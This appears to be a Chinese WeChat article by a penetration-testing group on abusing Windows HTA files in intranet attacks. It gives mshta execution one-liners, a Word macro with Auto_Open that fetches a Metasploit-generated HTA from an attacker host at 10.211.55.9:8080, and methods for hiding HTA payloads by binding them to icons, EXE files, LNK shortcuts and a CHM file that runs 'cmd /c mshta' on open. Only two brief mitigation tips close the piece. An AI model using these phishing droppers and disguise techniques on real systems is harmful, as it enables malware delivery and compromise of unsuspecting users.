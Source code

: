 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/40-IbiX2R5wRk0Cfm4bZuA)

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaib3xDLYxsgYUbDUFLK8ADofVLmI7nqqwBe3d59nPs3JfMeHdvgGmjfHwgNyboHD2qnARXu6T9fM8g/640?wx_fmt=png)

    点击上方 “蓝字” 关注我们

> 本文作者：****jokelove****（Ms08067 内网安全小组成员）  

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicklAS2T2URph3msv2bL7StJ92xMrc4fk1W3pibXbdutMbMVxmYVfW7USlEq1uKvTs7VpPnDdlfvVA/640?wx_fmt=png)  

**0x01 基础**  

HTA 是 HTML Application 的缩写，本⽂介绍 HTA 在内⽹渗透中的⼏种运⽤。

**⼀个简单的 VB 脚本**

HTA ⽂件可以解析 javascript 和 VB，因此在内⽹中可以⽤来绕过杀软或是实现邮件钓⻥。

```
<!--test1.hta-->
<html>
<head>
<title>ONE-简单脚本 </title>
</head>
<body>
<center>
<p>
HTA
HTMLApplication
HTML TEST
</p>
</center>
</body>
<script LANGUAGE="VBScript">
// 开启⼀个计算器
CreateObject("WScript.Shell").run("calc")
</script>
</html>
```

通过执⾏: mshta %cd%/test.hta 可以看到弹出⼀个计算器。

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaib3xDLYxsgYUbDUFLK8ADofyVAmDqLTUm7EHavzUK8OcSq83bibnmhajoUasknztVtY1YGFC0wuuqg/640?wx_fmt=jpeg)

  

  

双击时，会弹出 hta ⽂件的框，有时候为了避免弹出这个框，可以在 hta ⽂件中添加样式：

```
<HTA:APPLICATION icon="#" WINDOWSTATE="minimize" SHOWINTASKBAR="no"SYSMENU="no" CAPTION="no" />
```

**⽆⽂件执⾏ hta**  

mshta 命令可以⽤来直接解析 VBScript 代码，因此可以在 cmd 中直接输⼊:

```
mshta.exe javascript:"<script
LANGUAGE=\"VBScript\">CreateObject(\"WScript.Shell\").run(\"calc\")\r\n
close()</script>"
```

mshta.exe 的默认路径在 %windir%\system32\mshta.exe and %windir%\syswow64\mshta.exe

**⼩案例 - ⽣成钓⻥⽂件**

利⽤ metasploit ⽣成⼀个 hta ⽂件

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaib3xDLYxsgYUbDUFLK8ADofficeQhREmXgU26lia39xEsq1nW63A455Kdc5Ow3dsUXN3utHUDL8er2g/640?wx_fmt=jpeg)

  

  

**在 word 中开启宏命令进⾏下载：**

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaib3xDLYxsgYUbDUFLK8ADofkMT439MxLOyLMRx7acs9HaFZVlSiaFSQG5oXOmT6HPiaMWqf5NaVw0Tw/640?wx_fmt=jpeg)

  

  

脚本如下：

```
Sub Test()
PID = Shell("mshta.exe http://10.211.55.9:8080/XsFTbf3GZYiiz.ht
a")
End Sub

Sub Auto_Open()
Test
END Sub
```

剩下就是等待⽬标上线了。

**0x02 对 HTA 的⽂件的隐藏**

由于 MSHTA 对不同后缀的 hta ⽂件处理有所差异，我们可以通过修改后缀名的⽅式来进⼀步隐藏我们的脚本。第⼀种常⻅的⽅式是将 .hta 修改为 .html 。这种只能通过双击（Miscosoft 浏览器下）或者 mshta.exe 命令执⾏的⽅式来运⾏我们的 hta 脚本。

**为脚本加上图标**

默认的图标过于简单，很难吸引⼈去点击。因此，需要做⼀些⼩优化：

```
copy /b beauty.ico+test.hta test_with_beauty.hta
```

在 hta ⽂件中需要加上:

```
<HTA:APPLICATION icon="#" />
```

需要注意的是：

图标只可以在命令⾏上显示，在桌⾯上仍然没有图标

因此，我们必须寻找其它⽅法

**和 exe ⽂件进⾏拼接**

```
copy /b %windir%\system32\calc.exe+test.hta calc2.exe
calc2.exe # 正常运⾏计算机程序
mshta %cd%\calc2.exe # 执⾏的是HTA脚本
```

这样，我们可以在 exe 中绑定⼀个 hta ⽂件。

实战场景中，我们可以绑定⼀个 exe，并且添加可以调⽤ mshta 执⾏脚本的代码。也可以通过 shellcode 注⼊的⽅式来修改常⻅的 exe

**使⽤ LNK 快捷⽅式**

合上述讨论⼀致，通过：

```
Copy /b readme.txt.lnk+test.hta readme2.txt.lnk
```

点击 readme2.txt.lnk 时正常打开 readme.txt

使⽤ mshta readme2.txt.lnk 时，执⾏我们的脚本

**和帮助⽂件进⾏拼接**

上述的两种⽅式，都需要⼿⼯输⼊ mshta 命令来进⾏运⾏，如果仅仅需要⽤户双击既能运⾏正常的程序，⼜要执⾏我们的脚本，需要⽐较复杂的利⽤链条才能实现。下⾯介绍⼀种简单的⽅法：

**⽣成⼀个 chm ⽂件**

下载 HTML Help Workshop

写⼀个 HPP（帮助⽂档的描述⽂件）

```
[OPTIONS]
Compatibility=1.1 or later
Compiled file=hello.chm
Default topic=hello.htm
Display compile progress=No
Language=0x410 Italian (Italy)

[FILES]
hello.htm

[INFOTYPES]
```

3. 编写 Hello.htm

```
<html>
<title> Hello World! </title>
<head>
</head>
<body>

<OBJECT id=shortcut classid="clsid:52a2aaae-085d-4187-97ea-8c30db
990436" width=1 height=1>
<PARAM >
<PARAM >
<PARAM ,cmd,/c mshta %CD%\hello.chm">
<PARAM >
</OBJECT>
<SCRIPT>
shortcut.Click();
</SCRIPT>

<h2 align=center> CHM Example </h2>
<p><h3 align=center> This is a malicious CHM file </h3></p>
</body>
</html
```

4. 使⽤ HTML Help Workshop 编译⽣成 chm ⽂件

利⽤代码就时 hello.htm 的第 10 ⾏，

```
,cmd,/c mshta %CD%\hello.chm
```

**和 hta ⽂件进⾏绑定**

```
copy /b hello.chm+test.hta hello.chm
```

这样就实现了⽤户在点击时，在不影响原有程序的基础上执⾏我们的 hta 脚本。

**0x03 防范策略**

1. 禁⽤ office 上的宏命令

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaib3xDLYxsgYUbDUFLK8ADofEoHHpqRLXoKWLDBkFWR8HF9JNrThUAKJU9KVjZLDgppQHsiaiaE5s82Q/640?wx_fmt=jpeg)

  

  

2. 下载⽂件严格做好 md5 值验证

内网小组持续招人，扫描二维码加入我们！

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cRey7icGjpsvppvqqhcYo6RXAqJcUwZy3EfeNOkMRS37m0r44MWYIYmg/640?wx_fmt=png)

扫描下方二维码加入星球学习

邀请进入内部微信群，内部微信群永久有效！

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cniaUZzJeYAibE3v2VnNlhyC6fSTgtW94Pz51p0TSUl3AtZw0L1bDaAKw/640?wx_fmt=png) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cT2rJYbRzsO9Q3J9rSltBVzts0O7USfFR8iaFOBwKdibX3hZiadoLRJIibA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicBVC2S4ujJibsVHZ8Us607qBMpNj25fCmz9hP5T1yA6cjibXXCOibibSwQmeIebKa74v6MXUgNNuia7Uw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cRey7icGjpsvppvqqhcYo6RXAqJcUwZy3EfeNOkMRS37m0r44MWYIYmg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicjovru6mibAFRpVqK7ApHAwiaEGVqXtvB1YQahibp6eTIiaiap2SZPer1QXsKbNUNbnRbiaR4djJibmXAfQ/640?wx_fmt=jpeg) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicJ39cBtzvcja8GibNMw6y6Amq7es7u8A8UcVds7Mpib8Tzu753K7IZ1WdZ66fDianO2evbG0lEAlJkg/640?wx_fmt=png)  

目前 35000 + 人已关注加入我们  
![](https://mmbiz.qpic.cn/mmbiz_gif/XWPpvP3nWa9FwrfJTzPRIyROZ2xwWyk6xuUY59uvYPCLokCc6iarKrkOWlEibeRI9DpFmlyNqA2OEuQhyaeYXzrw/640?wx_fmt=gif)